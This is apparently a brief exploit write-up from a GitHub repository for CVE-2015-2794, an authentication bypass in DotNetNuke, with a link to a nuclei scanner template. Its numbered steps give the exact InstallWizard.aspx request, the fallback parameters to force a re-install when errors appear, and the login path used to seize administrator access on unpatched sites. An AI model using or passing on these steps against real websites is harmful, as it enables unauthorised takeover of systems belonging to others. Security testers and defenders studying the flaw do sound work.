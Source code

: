 # Exploit Title: DotNetNuke Administration Authentication Bypass

templates

https://github.com/projectdiscovery/nuclei-templates/blob/fcd3d55a60c8d8b61395e6056e83a6b08268cc11/http/cves/2015/CVE-2015-2794.yaml

Step 1: /Install/InstallWizard.aspx?__VIEWSTATE=

Step 2: Fill all infor

Step 3: CLick continue if it don't work, just add &culture=en-US&executeinstall

or you get any error ex: 500,... just removing __VIEWSTATE=

Install/InstallWizard.aspx?culture=en-US&executeinstall

Step 4: Login /Home/tabid/36/ctl/Login/Default.aspx

![454444](https://github.com/Kro0oz/-DotNetNuke-Administration-Authentication-Bypass/assets/72355033/5d5c8f9c-0833-4e18-b7be-365643379080)
